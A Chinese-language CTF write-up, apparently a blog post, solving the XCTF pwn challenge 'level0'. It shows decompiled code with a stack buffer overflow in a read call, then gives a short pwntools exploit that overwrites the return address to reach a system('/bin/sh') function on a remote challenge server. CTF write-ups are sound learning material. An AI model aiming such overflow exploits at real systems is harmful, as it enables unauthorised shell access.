 ```yaml
---
layout: post
title:  level0
date:   2020-08-18 00:01:01 +0300
image:  2020-08-18-young.jpg
tags:   [ctf,Pwn,攻防世界]
---
```


先运行文件，看到会让我们输入内容，

![]({{site.baseurl}}/img/2020-08-18-run.jpg)

ida64打开文件，查看主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
```

输入应该是在vulnerable_function()函数中，打开查看代码

```assembly
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

变量buf的大小是0x80

然后通过字符串找到了system函数

```assembly
int callsystem()
{
  return system("/bin/sh");
}
```

所以只要让栈返回到这个函数即可。

编写exp

```assembly
from pwn import *

io = remote("220.249.52.133",45728)
payload = "A" * (0x80 + 8) + p64(0x00400596)
io.sendline(payload)
io.interactive()
```

![]({{site.baseurl}}/img/2020-08-18-result.jpg)